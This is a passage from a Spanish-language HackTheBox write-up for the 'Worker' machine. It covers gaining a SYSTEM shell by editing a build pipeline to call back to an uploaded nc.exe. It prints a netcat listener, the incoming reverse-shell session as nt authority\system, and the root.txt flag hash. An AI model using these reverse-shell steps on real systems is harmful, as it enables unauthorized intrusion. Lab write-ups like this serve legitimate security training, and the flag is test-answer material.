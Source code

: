 - Vamos a editar el `Pipeline` para hacer todo lo anterior y enviarnos una `reverse shell`.

- En mi caso volví a subir el `nc.exe` así que nos enviamos una reverse ahora.

```bash
➜  ~ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/worker/30.png">
</p>

- Hacemos todo el proceso de antes de crear una nueva rama.

- Después de que se procese todo nos llega la `shell`.

```bash
➜  ~ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.10.10.203] 49935
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

W:\agents\agent11\_work\8\s>whoami
whoami
nt authority\system

W:\agents\agent11\_work\8\s>
```

## Root.txt

```bash
C:\>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
d3a78316ac7f36f03c0e6dd2ada48da9
C:\>
```
